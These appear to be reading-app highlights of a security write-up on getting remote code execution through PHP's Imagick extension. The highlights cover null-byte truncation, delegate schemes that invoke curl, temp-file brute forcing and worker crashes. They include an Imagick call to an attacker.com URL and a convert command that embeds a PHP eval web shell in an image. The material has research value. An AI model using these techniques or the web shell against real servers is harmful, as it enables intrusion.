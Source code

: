 An Imagick argument is truncated by a null-byte, even when it contains a PHP scheme:
```php
# No errors
$a = new Imagick("/tmp/positive.png\x00.jpg");
# No errors
$a = new Imagick("http://attacker.com/test\x00test");
```

**Square brackets can be used to detect ImageMagick**

ImageMagick is capable of reading options, e.g., an image’s size or frame numbers, from square brackets from the end of the file path: [](https://read.readwise.io/read/01jv25t6pbvm95k750b0753h2x)
```php
# No errors
$a = new Imagick("/tmp/positive.png[10x10]");
# No errors
$a = new Imagick("/tmp/positive.png[10x10]\x00.jpg"); 
```

**“https://” goes to PHP, but “https:/” goes to curl**

ImageMagick supports more than 100 different schemes. Half of ImageMagick’s schemes are mapped to external programs. This mapping can be viewed using the `convert -list delegate` command. [](https://read.readwise.io/read/01jv25v3ft129w4hz97bwb8ye0)

Passing the `https:/` string to `new Imagick(...)` bypasses PHP’s HTTPS client and invokes a curl process. [](https://read.readwise.io/read/01jv25w4fn58kn2yg8d4w8exnn)

**PHP’s arrays can be used to enumerate files**

When I discovered the curl technique with flushing the request data to `/tmp/*.dat`, and brute forcing `/proc/[pid]/fd/[fd]`, I tested whether `new Imagick('http://...')` flushes data as well. It does! [](https://read.readwise.io/read/01jv25x2azmh6wk5hp0a13wgy5)

## RCE #1: PHP Crash + Brute Force

`text:fd:30` and similar constructions case a worker process to crash on the remote web server [](https://read.readwise.io/read/01jv25ysa6b5f7abd8253fdgce).

This is what made it initially possible to upload a web shell!

The idea was to create multiple PHP temporary files with our content using `multipart/form-data` requests. According to the default `max_file_uploads` value, any client can send up to 20 files in a multipart request, which will be saved to `/tmp/phpXXXXXX` paths, where `X ∈ [A-Za-z0-9]`. These files will never be deleted if we cause the worker that creates them to crash. [](https://read.readwise.io/read/01jv25zwxjq52fefrz4zp13cxh)

If we send 20,000 such multipart requests containing 20 files each, it will result in the creation of 400,000 temporary files. [](https://read.readwise.io/read/01jv260yjry9kh519dvc5yvgmm)

So, in a 63.21% chance, after 142,000 tries we will be able to guess at least one temporary name and include our file with the MSL content. [](https://read.readwise.io/read/01jv2612pmzxy1yceakk5rve9g)

1. We need to create an image [](https://read.readwise.io/read/01jv2629x6w327qg96b6xmwfc1)
```bash
convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' positive.png
```
